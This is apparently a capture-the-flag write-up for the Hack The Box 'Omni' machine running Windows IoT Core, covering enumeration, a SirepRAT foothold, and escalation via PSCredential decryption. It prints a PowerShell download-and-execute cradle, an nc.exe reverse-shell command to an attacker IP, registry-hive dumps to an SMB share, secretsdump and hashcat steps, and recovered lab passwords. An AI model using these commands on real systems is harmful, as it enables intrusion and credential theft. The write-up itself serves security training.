 ```yaml
---
title: "[HTB] Machine: Omni"
description: "[HTB] Machine: Omni"
date: 2023-07-05
menu:
  sidebar:
    name: "[HTB] Machine: Omni"
    identifier: htb-machine-omni
    parent: htb-machines-windows
    weight: 10
hero: images/omni.png
tags: ["HTB", "windows-iot-core","powershell-credentials","sirep", "secretsdump", "windows-device-portal"]
---
```


# Omni
## Enumeration
- ```nmap```
```
└─$ nmap -p135,5985,8080,29817,29819,29820 -Pn 10.10.10.204 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 19:00 BST
Nmap scan report for 10.10.10.204 (10.10.10.204)
Host is up (0.16s latency).

PORT      STATE SERVICE
135/tcp   open  msrpc
5985/tcp  open  wsman
8080/tcp  open  http-proxy
29817/tcp open  unknown
29819/tcp open  unknown
29820/tcp open  unknown
```
```
└─$ nmap -p135,5985,8080,29817,29819,29820 -Pn -sC -sV 10.10.10.204 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 19:00 BST
Nmap scan report for 10.10.10.204 (10.10.10.204)
Host is up (0.14s latency).

PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
|_http-server-header: Microsoft-HTTPAPI/2.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-title: Site doesn't have a title.
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.93%I=7%D=7/5%Time=64A5AFBD%P=x86_64-pc-linux-gnu%r(NU
SF:LL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines,10,"\
SF:*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xfb`\x04
SF:G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc
SF:9}\xc8O\x12");
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.05 seconds
```
- Port `8080`

![](./images/1.png)

- `rpcclient`

![](./images/2.png)

- Other open ports indicate that it uses [Windows IOT Core](https://developer.microsoft.com/en-us/windows/iot/)
  - https://social.msdn.microsoft.com/Forums/vstudio/en-US/75314423-de13-4eff-bd15-0fec8b9c1da4/ports-open?forum=WindowsIoT
  - https://www.blackhat.com/docs/us-16/materials/us-16-Sabanal-Into-The-Core-In-Depth-Exploration-Of-Windows-10-IoT-Core-wp.pdf
## Foothold
- Googling more about the ports revealed the following [github page](https://github.com/SafeBreach-Labs/SirepRAT) indicating `Sirep` protocol
  - Check the [docs](https://github.com/SafeBreach-Labs/SirepRAT/tree/master/docs) for more info about the 
  - We can test the exploit

![](./images/3.png)

- Now let's try getting the reverse shell
  - I tried running `powershell -c iex(new-object net.webclient).downloadstring("http://10.10.16.12:8000/shell.ps1")`, which failed

![](./images/4.png)

- So I tried simply downloading the shell using `Invoke-WebRequest` which is worked
  - But it is better to download it to the [writable folder](https://book.hacktricks.xyz/windows-hardening/authentication-credentials-uac-and-efs), for example to `C:\Windows\System32\spool\drivers\color`
  - I tried running powershell's versions of reverse shell, had no success
  - So I used `nc`: `/c c:\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.16.12 6666`

![](./images/5.png)
![](./images/6.png)

## User
- If we check the `c:` drive, we have a `data` folder
  - No users `c:\Users`
  - But there are users in `c:\Data\Users\`

![](./images/7.png)

- If we check the folders, we can the flags but they are PSCredential files
  - We need a passwords to decrypt them

![](./images/8.png)

- Since we are `SYSTEM` we can dump the SAM hashes
  - Start `smbserver` on attack box: `impacket-smbserver share . -smb2support -username pentest -password pentest`
  - Mount the share to the box: `net use \\10.10.16.12\share /u:pentest pentest`
  - Dump the hives to the share:
    - `reg save HKLM\sam \\10.10.16.12\share\sam`
    - `reg save HKLM\system \\10.10.16.12\share\system`
    - `reg save HKLM\security \\10.10.16.12\share\security`
  - Dump the hashes: `impacket-secretsdump -sam sam -security security -system system LOCAL`
  - Crack the `app` user's hash: `hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt`
    - `app:mesh5143`

![](./images/9.png)
![](./images/10.png)
![](./images/11.png)
![](./images/12.png)
![](./images/13.png)

- Creds work to access the page on port `8080`
  - Get reverse shell

![](./images/14.png)
![](./images/15.png)


- Now we can decrypt the flag using `Import-CliXml`
  - `(Import-CliXml -Path user.txt).GetNetworkCredential().Password`

![](./images/16.png)

## Root
- We find interesting files inside `app`'s folder: `hardening.txt` and `iot-admin.xml`
  - `iot-admin.xml` is also PSCredential file
    - We can decrypt the same way as the flag: `(Import-CliXml -Path iot-admin.xml).GetNetworkCredential() | fl`
      - `administrator:_1nt3rn37ofTh1nGz`

![](./images/17.png)

- Let's get reverse shell the same way as before via port `8080`
  - `(Import-CliXml -Path root.txt).GetNetworkCredential().Password`

![](./images/18.png)

